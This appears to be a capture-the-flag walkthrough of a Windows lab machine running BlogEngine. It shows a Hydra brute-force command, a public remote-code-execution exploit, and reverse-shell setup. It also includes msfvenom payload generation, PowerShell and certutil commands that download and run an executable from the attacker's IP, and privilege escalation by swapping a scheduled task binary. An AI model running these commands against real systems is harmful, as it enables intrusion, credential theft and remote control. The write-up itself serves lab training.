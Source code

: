 Using autorecon, we quickly determine that ports 80 and 3389 are open.

<center>

![efa067d955098e8f8ee6b381e60c64ab.png](/HackPark/_resources/efa067d955098e8f8ee6b381e60c64ab-1.png)

</center>

By either looking at the autorecon results or by running a detailed nmap scan, we obtain more details about the services running on these two ports:

<center>

![1613229ae7e2222b5f5b021d0cbd24f0.png](/HackPark/_resources/1613229ae7e2222b5f5b021d0cbd24f0-1.png)

</center>

Investigating the web server on port 80, we eventually find a login page.

<center>

![2f8d1c6ad747ce3acbfbe550f89e4caf.png](/HackPark/_resources/2f8d1c6ad747ce3acbfbe550f89e4caf-1.png)

</center>

A quick Google search tells us that the default credentials for blogengine are admin:admin; this does not work in this instance, but we make note of this for later. Right-clicking on the log in button and using Firefox's inspect tool, we can determine the request type used by the log in form.

<center>

![f03ee789746226fd3abba612238de0db.png](/HackPark/_resources/f03ee789746226fd3abba612238de0db-1.png)

</center>

Alternatively, we can send the request through BurpSuite:

<center>

![3f665a94884868f0448d14ddd7faa944.png](/HackPark/_resources/3f665a94884868f0448d14ddd7faa944-1.png)

</center>

This will be useful later, as we will need the body of the POST request.

<br>

# Exploitation

We begin by brute-forcing the login page we found during our enumeration. We make use of Hydra. A bit of Googling reverse that one possible form of Hydra attack for an http-form POST request is:

```bash
hydra -l <username> -P <password list> $ip http-form-post "<path to login form>:<http post request body>:<invalid login pattern>" -V
```

For this to work, we need a few parameters:

- `<username>`: In this case, this is just admin.
- `<password list>`: We have a few choices here. We'll make use of the usual rockyou.txt password list.
- `$ip$`: This is the IP of the target machine.
- `<http post request body>`: This is the body of the HTTP post request we found using Burp. In general, we need to replace at least one of the username or password fields in the request body with `^USER^` or `^PASS^`, respectively. Since in this case we know the username, we can just use the password string.
- `<invalid login pattern>`: This is a string which Hydra will use to identify a failed login. We can test this directly on the login page and we find that "Login Failed" is the phrase returned for a failed login attempt.

Putting this together, the final command then becomes:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.0.19 http-post-form "/Account/login.aspx:__VIEWSTATE=VCLL4AD5hj4eU3c7OwZCMFSLrZgnuwNWwqU14ymrpSECMRMEss1jMVYmVb67U%2FpsBcK4tYfVcmqrQ%2B95Jw3qZzSMDHpPIKoIenuCluq6CFcmlVtKvP9qEozi293OcTTtm4qs%2Bf2KgjvhxZRnGxbLjaieg4PILs7zGesG7KaJ0cBNnJCJ&__EVENTVALIDATION=uri6bSKQN1p12IRWrOAPflhnCzioDymlveM9EI3FTCbZDuejIqx1mmjj1frSwFIxJVP67K%2BbeYtAFGpcmnK3vS7Fnnht8ZBu1RwEyFOmtErPCc0hDk71fYe4aqxdDJL%2BzggAaduPYQgoTwhO7cB9U7vuIHO7QtDBD6hYfu5TumyNHhLp&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" -V
```

<center>

![e9040c88c5d9d7bd978ab69d4fcf28ca.png](/HackPark/_resources/e9040c88c5d9d7bd978ab69d4fcf28ca-1.png)

</center>

After a short while (about 1400 attempts), we obtain the password to the admin account.

<center>

![e787b6c51985dc37e38b1ac38853b00d.png](/HackPark/_resources/e787b6c51985dc37e38b1ac38853b00d-1.png)

</center>

Now that we have access to the admin account, we want to find a vulnerability which we can exploit to gain an initial foothold. Navigating to the admin page via the sidebar and then locating the about page reveals the version of BlogEngine.

<center>

![c0b94d9a6ccaf6773f8290789f22ea26.png](/HackPark/_resources/c0b94d9a6ccaf6773f8290789f22ea26-1.png)

</center>

Searching for "Blog Engine 3.3.6" on exploit DB gives us a few options; we will use [this exploit](https://www.exploit-db.com/exploits/46353) for remote code execution. Download the exploit and open the code in Mousepad. We need to change the TcpClient IP to the attacker IP. We will listen on the indicated port (in this case, I've chosen port 9999).

<center>

![24c39b9e1c067839ba50736b1bdd57ae.png](/HackPark/_resources/24c39b9e1c067839ba50736b1bdd57ae-1.png)

</center>

Start a netcat listener on the attacking machine.

<center>

![f81b1fd29f92bd75ef391547a6f8a90e.png](/HackPark/_resources/f81b1fd29f92bd75ef391547a6f8a90e-1.png)

</center>

We will run the exploit by following the instructions given in the C# file. Look for a published post using the admin dashboard and click on it to begin editing.

<center>

![2481f63928dad8cff301cb68653c3645.png](/HackPark/_resources/2481f63928dad8cff301cb68653c3645-1.png)

</center>

In the editor, click on the folder icon to open the file manager. Then rename the C# file to `PostView.ascx` and upload it.

<center>

![54df4778576ce55f5a526059f55af926.png](/HackPark/_resources/54df4778576ce55f5a526059f55af926-1.png)

</center>

We then trigger the file by navigating to `10.10.0.19/?theme=HackPark/App_Data/files`. Going back to our netcat listener, we see that we've caught a reverse shell.

<center>

![2142b8b7632e79fef82e5eec0c0c9b33.png](/HackPark/_resources/2142b8b7632e79fef82e5eec0c0c9b33-1.png)

</center>

Since our shell is unstable, we will pivot from netcat to a meterpreter session. Start by generating a reverse shell payload with msfvenom.

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.30.43 LPORT=9999 -f exe -o hackparkshell.exe
`

We then open a web server with `python3 -m http.server` within the directory containing the reverse shell executable. Meanwhile, in our netcat session we navigate to `C:\Windows\Temp` (since we don't seem to have write permissions elsewhere) and run the following command to download the msfvenom reverse shell payload.
```powershell
powershell -command "Invoke-WebRequest -OutFile shell.exe -Uri 10.6.30.43:8000/hackparkshell.exe"
```

We can also use the following command to download files onto a Windows machine.
```powershell
certutil.exe -urlcache -f http://10.6.30.43/hackparkshell.exe shell.exe
```

In another terminal window, we open up Metasploit to set up the reverse handler. We use  ``use exploit/multi/handler`` and we set the following options:

<center>

![e18242f0bff037e0f026b24a82b01662.png](/HackPark/_resources/e18242f0bff037e0f026b24a82b01662-1.png)

</center>

Now ``run``  to start the reverse TCP handler. Back in our netcat session, we execute the shell with `shell.exe`. This will give us our meterpreter shell.

<br>

# Post-exploitation

Now that we have a stable shell, we wish to escalate privileges. Using `sysinfo` gives us some more information about the Windows machine.

<center>

![ef80725497f42f86fff2a3f0ac010f3d.png](/HackPark/_resources/ef80725497f42f86fff2a3f0ac010f3d-1.png)

</center>

The room suggests feeding the output into [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) in order to determine further exploits for privilege escalation. However, this didn't seem to work for me. Instead, we'll use WinPEAS. We download the x64 exe file [from here](https://github.com/carlospolop/PEASS-ng/releases/tag/20220717) and we transfer it to the target system. Here, I switched to a Windows shell within meterpreter with `shell powershell` and used the same command we used before.

<center>

![a556bb3bcc0fd6bcf88720ab09fa4b6e.png](/HackPark/_resources/a556bb3bcc0fd6bcf88720ab09fa4b6e-1.png)

</center>

We then run winPEASx64.exe. We find some AutoLogon credentials.

<center>

![b295c359179f0979ebbdecbdd843c173.png](/HackPark/_resources/b295c359179f0979ebbdecbdd843c173-1.png)

</center>

We saw that port 3389 was open and serving a Microsoft Web Server. We can use this to connect to the machine as administrator. Open a new terminal and use the command `xfreerdp /tls-seclevel:0 /u:Administrator /p:<password> /v:10.10.0.19`.

(Note: I had issues connecting to the Windows machine via RDP; a bit of Googling suggested modifying the tls-seclevel parameter. The above parameter worked for me, although I'm not sure why.)

After RDPing into the machine, we have root access. The root flag is found on the desktop.

<center>

![e0b4da138dfc97dec15f63bb7e4141cc.png](/HackPark/_resources/e0b4da138dfc97dec15f63bb7e4141cc-1.png)

</center>

Similarly, we can navigate to Jeff's desktop to obtain his flag.

<center>

![b7a8c407998e463c4527ee3e432c1a3c.png](/HackPark/_resources/b7a8c407998e463c4527ee3e432c1a3c-1.png)

</center>

Alternatively, we can follow the intended path given in Task 4 of the room. Sifting through the winPEAS output, we eventually find an abnormal service running on the Windows machine.

<center>

![6b5ec3c6fd6524ee0e3fcd0fa2f10dae.png](/HackPark/_resources/6b5ec3c6fd6524ee0e3fcd0fa2f10dae-1.png)

</center>

It seems that something is happening with the Windows Scheduler service. We caught a glimpse of this when we RDP'd into the machine; every minute or so, a strange message pops up. Within our netcat session, we navigate to `C:\Program Files (x86)\SystemScheduler` and run `tasklist /v` to see a list of currently running tasks. We note that the file `Message.exe` seems to be sheduled.

<center>

![47cc8dde9b28889cfdc4f0f59e13b6a7.png](/HackPark/_resources/47cc8dde9b28889cfdc4f0f59e13b6a7-1.png)

</center>

Our goal is to replace this file with our msfvenom payload in order to spawn a reverse shell. We use the same command as before to generate the payload, making sure to use a different port this time.

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.30.43 LPORT=9998 -f exe -o Message.exe 
```

Now repeat the steps from the previous task by setting up a Metasploit handler: Delete the old Message.exe file with `del /f Message.exe`, upload the new Message.exe payload to the target system, and wait for the task to execute. Since the system scheduler runs with admin privileges, this gives us a reverse shell with elevated privileges which we can use to access the two needed flags. Now we can navigate to the relevant folders within the meterpreter shell to find the flags.

<center>

![cf3e3caf2dcae4113c340614d619b940.png](/HackPark/_resources/cf3e3caf2dcae4113c340614d619b940-1.png)

![5388252d3f95cf1883f78afa49146da9.png](/HackPark/_resources/5388252d3f95cf1883f78afa49146da9-1.png)

</center>

To finish the room, we just need to find the original install time. This type of information can be found in the winPEAS output. The correct date and time turns out to be the same as the last time the Administrator's password was reset.

<center>

![06e783f7ae4b055418e0574d50c22ff6.png](/HackPark/_resources/06e783f7ae4b055418e0574d50c22ff6-1.png)

</center>